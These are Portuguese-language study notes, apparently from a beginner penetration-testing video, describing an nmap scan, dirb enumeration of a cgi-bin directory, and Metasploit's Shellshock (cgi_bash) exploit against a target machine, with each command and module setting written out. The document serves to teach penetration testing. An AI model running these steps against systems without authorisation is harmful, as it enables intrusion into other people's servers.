 # Lista
1. Scanner devices
2. vulnerabilidade loophole
3. inserir um exploit

## Scanner
> -sV       -> verifica as portas abertas
> -O        -> detect o OS (Sistema Operacional)
> -p1-65535 -> range (intervalo) de portas a scanear
```
    sudo nmap <IP_DA_MAQUINA_A_SER_INVADIDA> -sV -O -p1-65535
```

O Scanner apresentou um Servidor Apache, com httpd que será explorado

## Busca por vulnerabilidades
```
    dirb <IP_DA_MAQUINA_A_SER_INVADIDA>
```

Foi encontrado um diretório cgi-bin (Common Gateway Interface),
que é uma forma como o OS interage com o programas externos

## Inserção de Exploit
> console de busca para metaexploit
```
    msfconsole
```

Dentro do console do msfconsole:
```
    search shellsock
```

A busca é por cgi_bash, um exploit que explore a vulnerabilidade do cgi-bin

Após encontrá-lo, realize sua seleção através de seu número:
```
    1
```

Introduza as informações referentes ao alvo:
```
    set RHOSTS <IP_DA_MAQUINA_A_SER_INVADIDA>
    set RPATH /bin
    set TARGETURI <DIRECTORY> # set TARGETURI /cgi-bin/hello_world.sh
```

Inicie o ataque:
```
    exploit
```

# REFERÊNCIAS
[Simple Penetration Testing Tutorial for Beginners!](https://www.youtube.com/watch?v=B7tTQ272OHE)
